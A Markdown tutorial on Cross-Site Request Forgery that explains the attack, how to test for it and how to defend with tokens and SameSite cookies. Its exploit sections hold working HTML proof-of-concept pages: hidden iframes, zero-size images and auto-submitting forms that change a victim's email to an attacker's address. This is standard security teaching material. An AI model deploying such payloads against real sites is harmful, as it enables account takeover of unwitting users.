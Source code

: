 # Cross-Site Request Forgery (CSRF)

## Table Of Contents

- [What is CSRF](#what-is-csrf)
- [How To Find CSRF Vulnerabilities](#how-to-find-csrf-vulnerabilities)
- [How to Exploit CSRF Vulnerabilities](#how-to-exploit-csrf-vulnerabilities)
- [How to Prevent CSRF Vulnerabilities](#how-to-prevent-csrf-vulnerabilities)

---

## What is CSRF?

CSRF (Cross-Site Request Forgery) is an attack where the attacker tricks an authenticated user into performing unintended actions on a web application.

---

### Session Management

#### Login Example

1. User logs in to the web application:
`POST /login.php HTTP/1.1 username=admin password=admin`
Response:
`Set-Cookie: session=66htna8ujukmhjsxutvd`

2. Session Management:
- Cookies are used to track authenticated users.
- Example session cookies:
  - `session=66htna8ujukmhjsxutvd`
  - User mapping:
    - Tom: `j898c5azapljpbkm0e7k`
    - Emily: `gqy3fizemr95hzb0n5r9`
    - Ahmed: `0tq1kk0nta3irc847uc7`

---

### CSRF Attack Flow

1. The attacker creates a malicious link:
`https://bank.com/email/change?email=attacker@gmail.com`

2. The victim unknowingly visits the malicious link.

3. The web application processes the request as legitimate:
- Action is performed under the victim's authenticated session.

---

#### Exploit Example

```html
<!DOCTYPE html>
<html>
<body>
 <iframe src="https://bank.com/email/change?email=attacker@gmail.com"></iframe>
</body>
</html>
```
### CSRF Conditions

To successfully exploit a CSRF vulnerability, the following conditions must be true:

1. #### Relevant Action
The web application performs an action that the attacker wants to exploit (e.g., updating an email address, resetting a password).

2. #### Cookie-Based Session Handling
The web application uses cookies to maintain the authenticated session of the user.

3. #### No Unpredictable Parameters
The web application lacks any mechanism, such as anti-CSRF tokens, that introduces unpredictable values into the request.

---

### Impact of CSRF Attacks

The impact of a CSRF attack depends on the functionality being exploited. Potential impacts include:

- **Confidentiality**: None, Partial (Low), or High
- **Integrity**: Partial or High
- **Availability**: None, Partial (Low), or High
- **Remote Code Execution**: May occur if the application allows it.

---

## How to Find CSRF Vulnerabilities

### Black-Box Testing Perspective

1. Map the application and review its key functionalities.
2. Identify application functions that satisfy these conditions:
   - Relevant action
   - Cookie-based session handling
   - No unpredictable request parameters
3. Create a Proof of Concept (PoC):
   - **GET Request**: Use an `<img>` tag with the `src` attribute pointing to the vulnerable URL.
   - **POST Request**: Use a form with hidden fields for all required parameters and set the target to the vulnerable URL.

```html
<html>
  <body>
    <form action="https://vulnerablewebsite.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@eviluser.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### White-Box Testing Perspective

1. Identify the framework used by the application.
2. Check the framework's defenses against CSRF attacks.
3. Review the code to ensure built-in defenses are not disabled.
4. Verify that all sensitive functionality has CSRF defenses applied.

---

## How to Exploit CSRF Vulnerabilities

### Exploiting CSRF - GET Scenario

#### Example Request
`GET https://bank.com/email/change?email=test@test.ca HTTP/1.1`


#### Exploit Example
```html
<html>
  <body>
    <h1>Hello World!</h1>
    <img src="https://bank.com/email/change?email=attacker@gmail.ca" width="0" height="0" border="0" />
  </body>
</html>
```

#### Result

The victim unknowingly executes the malicious action.

---

### Exploiting CSRF - POST Scenario

#### Example Request

`POST /email/change HTTP/1.1 Host: https://bank.com ... email=test@test.ca`


### Exploit Example
```html
<html>
  <body>
    <h1>Hello World!</h1>
    <iframe style="display:none" name="csrf-iframe"></iframe>
    <form action="https://bank.com/email/change/" method="POST" target="csrf-iframe" id="csrf-form">
      <input type="hidden" name="email" value="test@test.ca" />
    </form>
    <script>
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
```

## How to Prevent CSRF Vulnerabilities
### Primary Defense: CSRF Tokens
#### Token Generation
- Tokens must be unpredictable and have high entropy.
- Tokens should be tied to the user’s session.

#### Token Transmission
- Use hidden fields in HTML forms submitted via POST.
- Custom request headers can also transmit tokens.

#### Token Validation
- Validate tokens against session data stored server-side.
- If a token is missing or invalid, reject the request.

---

### Additional Defense: SameSite Cookies

The `SameSite` attribute can control whether cookies are submitted in cross-site requests.

#### Examples
`Set-Cookie: session=test; SameSite=Strict Set-Cookie: session=test; SameSite=Lax Set-Cookie: flavor=choco; SameSite=None; Secure`


---

### Inadequate Defense: Referer Header

The `Referer` header contains the address of the page making the request.

#### Weaknesses
- Can be spoofed or omitted.
- Often only partially checked (e.g., for the domain).

---

## Resources

- [Web Security Academy - CSRF](https://portswigger.net/web-security/csrf)
- [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
- [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [OWASP Code Review Guide - Reviewing Code for CSRF Issues](https://owasp.org/www-project-code-review-guide/reviewing-code-for-csrf-issues)

